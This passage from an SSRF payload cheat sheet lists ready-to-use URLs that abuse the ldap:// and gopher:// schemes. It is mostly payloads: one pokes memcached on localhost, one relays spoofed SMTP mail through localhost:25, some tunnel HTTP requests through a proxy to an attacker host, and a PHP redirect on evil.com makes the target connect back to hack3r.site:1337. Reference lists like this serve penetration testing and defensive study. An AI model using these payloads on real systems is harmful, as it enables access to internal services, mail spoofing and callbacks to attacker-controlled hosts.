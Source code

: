 Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

### **Gopher** ###

It is a distributed document delivery service. It allows users to explore, search and retrieve information residing on different locations in a seamless fashion.

```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a

will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH

You didn't say the magic word !


.
QUIT
```

### **Gopher HTTP** ###

```
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```

### **Gopher SMTP - Back connect to 1337** ###

```
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>

Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```
